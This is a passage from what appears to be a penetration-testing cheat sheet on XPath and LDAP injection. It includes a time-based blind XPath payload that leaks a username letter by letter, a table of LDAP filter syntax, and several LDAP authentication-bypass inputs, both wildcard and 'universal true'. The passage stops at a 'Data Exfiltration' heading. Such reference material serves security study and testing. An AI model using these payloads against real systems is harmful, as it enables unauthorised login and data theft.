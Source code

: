 #### Time-based

Force the web application to iterate over the entire XML document exponentially:

```xpath
count((//.)[count((//.))])
```

Determine whether the first letter of the "username" is "a" based on the time it takes: if it is, the query will utilize a significant processing time, otherwise, it won't.

```xpath
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1
```

## LDAP Injection

#### LDAP Search Filter Syntax

|Name|Operand|Example|Example Description|
|---|---|---|---|
|Equality|`=`|`(name=Kaylie)`|Matches all entries that contain a `name` attribute with the value `Kaylie`|
|Greater-Or-Equal|`>=`|`(uid>=10)`|Matches all entries that contain a `uid` attribute with a value greater-or-equal to `10`|
|Less-Or-Equal|`<=`|`(uid<=10)`|Matches all entries that contain a `uid` attribute with a value less-or-equal to `10`
|Approximate Match|`~=`|`(name~=Kaylie)`|Matches all entries that contain a `name` attribute with approximately the value `Kaylie`|
|And|`(&()())`|`(&(name=Kaylie)(title=Manager))`|Matches all entries that contain a `name` attribute with the value `Kaylie` and a `title` attribute with the value `Manager`|
|Or|<code>(&#124;()())</code>|<code>(&#124;(name=Kaylie)(title=Manager))</code>|Matches all entries that contain a `name` attribute with the value `Kaylie` or a `title` attribute with the value `Manager`|
|Not|`(!())`|`(!(name=Kaylie))`|Matches all entries that contain a `name` attribute with a value different from `Kaylie`|
|True|`(&)`|`(&)`|Universal True|
|False|<code>(&#124;)</code>|<code>(&#124;)</code>|Universal False|
|Wildcard|`*`|`(name=*a*)`|Matches all entries that contain a name attribute that contains an `a`|


#### Authentication Bypass

|Description|Username|Password|Search Filter|
|---|---|---|---|
|Regular Authentication|`admin`|`admin`|`(&(uid=admin)(userPassword=admin))`|
|Wildcard Bypass|`*`|`*`|`(&(uid=*)(userPassword=*))`|
|Wildcard Bypass targeting specific user|`admin*`|`*`|`(&(uid=admin*)(userPassword=*))`|
|Universal True Bypass|<code>admin)(&#124;(&#x26;</code>|`invalid)`|<code>(&#x26;(uid=admin)(&#124;(&#x26;)(userPassword=invalid)))</code>|


#### Data Exfiltration
